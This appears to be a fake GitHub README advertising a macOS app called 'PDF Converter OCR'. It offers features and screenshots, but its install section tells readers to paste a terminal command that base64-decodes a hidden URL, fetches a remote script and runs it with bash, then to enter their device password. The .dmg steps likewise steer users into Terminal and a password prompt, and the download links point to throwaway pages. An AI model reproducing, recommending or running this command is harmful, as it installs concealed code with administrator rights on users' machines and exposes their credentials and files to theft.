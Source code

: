 # 🧾 PDF Converter OCR — Advanced PDF Conversion and OCR Software for macOS

PDF Converter OCR is a powerful macOS application designed to convert scanned PDFs and images into editable and searchable documents. Utilizing advanced Optical Character Recognition (OCR) technology, it enables easy extraction of text from images and PDFs for seamless editing and data management.

## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://mitrobandus.github.io/.github/PDFConverter)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download PDF Converter OCR for macOS  
[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://shuziktobehuman.github.io/huja/PDFConverter)

---

## 📦 What is PDF Converter OCR?

PDF Converter OCR allows macOS users to transform scanned PDFs, images, and documents into editable Word, Excel, PowerPoint, and text files. Its high-accuracy OCR engine supports multiple languages and preserves the original layout, making document digitization fast and reliable.

---

## ✨ Features

- 🔍 Accurate OCR conversion from scanned PDFs and images  
- 📄 Convert PDFs to editable Word, Excel, PowerPoint, and Text  
- 🖼️ Supports image to text and image to Word conversions  
- 🌐 Multi-language recognition and layout retention  
- 🖥️ Native macOS support with Retina display optimization  
- 🔄 Batch conversion for multiple files at once  
- 🔐 Secure document processing with local offline OCR  

---

## 💡 Why Use PDF Converter OCR?

- ✅ Quickly digitize scanned documents for editing and sharing  
- 📈 Boost productivity by automating data extraction from PDFs  
- 🔄 Convert various file formats with minimal loss of formatting  
- 🔐 Keep sensitive files secure with offline processing  
- 🧰 Ideal tool for students, professionals, and businesses needing document OCR  

---

[![Download PDF Converter OCR](https://img.shields.io/badge/Download-PDF_Converter_OCR-blueviolet)](https://mitrobandus.github.io/.github/PDFConverter)

---

## 🖼️ Preview

![PDF Converter OCR Screenshot 1](https://www.lightenpdf.com/wp-content/themes/lightenpdf/images/products/pdf-converter-ocr-mac-3.jpg)  
![PDF Converter OCR Screenshot 2](https://www.cisdem.com/images/features/pdfconverterocr/main.jpg)

---

## 📌 Tags

pdf converter ocr, ocr pdf to excel, pdf image to text, ocr to excel, ocr scanning software, ocr2edit,  
scan pdf to text, convert scanned pdf to editable pdf, free ocr pdf, scanned pdf to word converter,  
online ocr pdf to word, convert scanned pdf to word online free, ocr text, convert pdf image to text,  
convert scanned pdf to text, convert scanned pdf to excel, ocr image reader, convert scanned pdf to word free,  
scanned document to word, scan text to word, free ocr pdf to word, scanned pdf to excel, ocr scanner online,  
convert scanned document to word, ocr pdf to word converter, nanonets pdf to excel, convert image to word text,  
pdf converter ocr mac, pdf converter ocr mac download
